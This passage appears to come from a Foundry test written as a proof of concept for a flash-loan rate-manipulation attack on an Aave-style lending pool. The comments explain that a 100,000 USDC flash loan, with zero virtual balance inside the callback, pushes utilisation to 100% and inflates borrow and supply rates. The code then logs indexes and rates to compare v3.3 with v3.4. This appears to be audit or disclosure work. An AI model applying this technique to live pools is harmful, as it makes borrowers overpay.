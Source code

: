 ```solidity
    vm.warp(block.timestamp + 1 days);

    // perform the FL attack
    // flashloan 100_000 USDC
    // inside the FL callback virtual underlying balance is ZERO
    // any operation performed (that trigger reserve index and rate updates) will bring the usage ratio to 100%
    // boosting the supply and borrow rate
    // until someone else re-trigger a state update
    // for the delta time between the attack and the "new operation"
    // the borrower will pay more and suppliers earn more than deserved
    bytes memory emptyParams;

    vm.prank(attacker);
    contracts.poolProxy.flashLoanSimple(
      address(attackerFLReceiver),
      tokenList.usdx,
      100_000e6,
      "",
      0
    );

    // warp 1 day to see the effect of the inflated supply and borrow rate
    vm.warp(block.timestamp + 1 days);

    // compare values between v3.3 and v3.4 code
    _printData(tokenList.usdx, s1, b1);
  }

  function _printData(
    address reserve,
    address supplier,
    address borrower
  ) public {
    address vUSDX = contracts.poolProxy.getReserveVariableDebtToken(
      tokenList.usdx
    );
    address aUSDX = contracts.poolProxy.getReserveAToken(tokenList.usdx);
    DataTypes.ReserveDataLegacy memory res = contracts.poolProxy.getReserveData(
      reserve
    );
    console.log(
      "vub        \t:",
      contracts.poolProxy.getVirtualUnderlyingBalance(reserve)
    );
    console.log("l index    \t:", res.liquidityIndex);
    console.log("b index    \t:", res.variableBorrowIndex);
    console.log(
      "l index up \t:",
      contracts.poolProxy.getReserveNormalizedIncome(reserve)
    );
    console.log(
      "b index up \t:",
      contracts.poolProxy.getReserveNormalizedVariableDebt(reserve)
    );
    console.log("l rate     \t:", res.currentLiquidityRate);
    console.log("b rate     \t:", res.currentVariableBorrowRate);
    console.log("u sb       \t:", IERC20(aUSDX).balanceOf(supplier));
    console.log("u bb       \t:", IERC20(vUSDX).balanceOf(borrower));

    console.log("");
  }

```